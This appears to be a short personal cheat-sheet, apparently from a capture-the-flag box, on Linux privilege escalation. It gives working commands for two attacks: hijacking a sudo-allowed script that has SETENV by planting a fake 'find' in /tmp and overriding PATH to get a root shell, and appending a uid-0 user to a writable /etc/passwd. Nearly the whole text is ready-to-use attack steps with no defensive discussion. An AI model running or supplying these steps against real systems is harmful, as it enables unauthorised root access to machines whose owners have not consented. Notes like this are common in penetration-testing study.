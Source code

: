 # sudo -l 

## Case 1 - 

$sudo -l 

Matching Defaults entries for wizard on pb:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User wizard may run the following commands on pb:
    (root) SETENV: NOPASSWD: /opt/cleanup.sh

-----------------------------------------------------

If we see a SETENV in that case we need to - 

    a. cat the file /opt/cleanup.sh
    b. see which command in that doesnot have an absolute path set
    c. In our case, find didn't have an absolute path set.
    d. make an executable file in /tmp named find.  -- echo "bash" > /tmp/find && chmod +x /tmp/find
    e. Now set the PATH environment variable to /tmp and also execute the cleanup.sh script to priv esc
        
         sudo PATH=/tmp:$PATH /opt/cleanup.sh

if you have read/write access to /etc/passwd you can:
    openssl passwd <whateverPasswordYouWant>
    echo "myUser:<openSSLHash>:0:0:root:/root:/bin/bash" >> /etc/passwd
    su myUser
         
   

